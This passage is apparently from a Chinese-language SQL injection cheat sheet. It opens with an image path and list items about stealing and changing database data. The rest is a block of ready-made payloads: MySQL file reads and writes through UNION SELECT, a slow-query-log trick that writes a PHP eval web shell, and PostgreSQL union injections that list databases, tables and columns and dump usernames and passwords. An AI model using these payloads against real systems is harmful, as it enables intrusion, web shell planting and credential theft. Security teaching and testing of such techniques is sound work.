 3.获取数据库里面的敏感信息

4.更改数据库里面的数据

```sql
#MYSQL-root高权限读写注入

-读取文件：

UNION SELECT 1,load_file('d:/w.txt'),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17

-写入文件：

UNION SELECT 1,'xxxx',3,4,5,6,7,8,9,10,11,12,13,14,15,16,17 into outfile 'd:/www.txt'

-路径获取：phpinfo,报错,字典等

-无法写入：secure_file_priv突破 注入中需要支持SQL执行环境，没有就需要借助phpmyadmin或能够直接连上对方数据库进行绕过

set global slow_query_log=1;
set global slow_query_log_file='shell路径';
select '<?php eval($_GET[A])?>' or SLEEP(1);



\#PostgreSQL-高权限读写注入

-测列数：

order by 4
and 1=2 union select null,null,null,null

-测显位：第2，3

and 1=2 union select 'null',null,null,null 错误
and 1=2 union select null,'null',null,null 正常
and 1=2 union select null,null,'null',null 正常
and 1=2 union select null,null,null,'null' 错误

-获取信息：

and 1=2 UNION SELECT null,version(),null,null
and 1=2 UNION SELECT null,current_user,null,null
and 1=2 union select null,current_database(),null,null

-获取数据库名：

and 1=2 union select null,string_agg(datname,','),null,null from pg_database

-获取表名：

1、and 1=2 union select null,string_agg(tablename,','),null,null from pg_tables where schemaname='public'
2、and 1=2 union select null,string_agg(relname,','),null,null from pg_stat_user_tables

-获取列名：

and 1=2 union select null,string_agg(column_name,','),null,null from information_schema.columns where table_name='reg_users'

-获取数据：

and 1=2 union select null,string_agg(name,','),string_agg(password,','),null from reg_users

-补充-获取dba用户（同样在DBA用户下，是可以进行文件读写的）：
```